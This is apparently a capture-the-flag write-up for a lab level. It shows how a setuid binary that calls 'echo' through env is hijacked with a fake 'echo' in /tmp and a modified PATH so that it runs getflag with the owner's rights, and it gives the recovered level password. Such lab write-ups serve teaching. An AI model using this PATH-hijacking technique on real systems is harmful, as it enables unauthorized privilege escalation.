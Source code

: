 # LEVEL 00

## 💡 Explanation

In this level we have to:
1. When running the file level03 we get 'Exploit me'.
2. We check the permissions of the file level03: `ls -la level03` => `-rwsr-sr-x 1 flag03  level03 8.5K Mar  5  2016 level03`:
    - The file's owner is the user 'flag03' (permissions `rws` => read, write, and setuid : execute as the user).
    - The file's group is 'level03' (permissions `r-s` => read, and setgid : execute as the group).
3. We see that it executes `/usr/bin/env echo Exploit me`.
4. We modify the command `echo` to make it run `getflag` with the flag03 user permissions.
5. Last but not least, we just have permissions to create a file in /tmp so we have to do it there.

## 👾 Commands

```
./level03
strings level03 | grep "bin"
which getflag
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```

## 🔍 Resources

- [Linux strings command](https://www.javatpoint.com/linux-strings-command#:~:text=Linux%20strings%20command%20is%20used,text%20from%20an%20executable%20file.)
- [Linux ls command](https://linuxize.com/post/how-to-list-files-in-linux-using-the-ls-command/)
- [Linux File's Rights](https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/#:~:text=Le%20principe%20du%20setgid%20est,'agit%20d'un%20r%C3%A9pertoire.)
- [Linux env command](https://www.computerhope.com/unix/uenv.htm#:~:text=env%20is%20a%20shell%20command,without%20modifying%20the%20current%20one.)

## 🔥 Password
`qi0maab88jeaj46qoumi7maus`
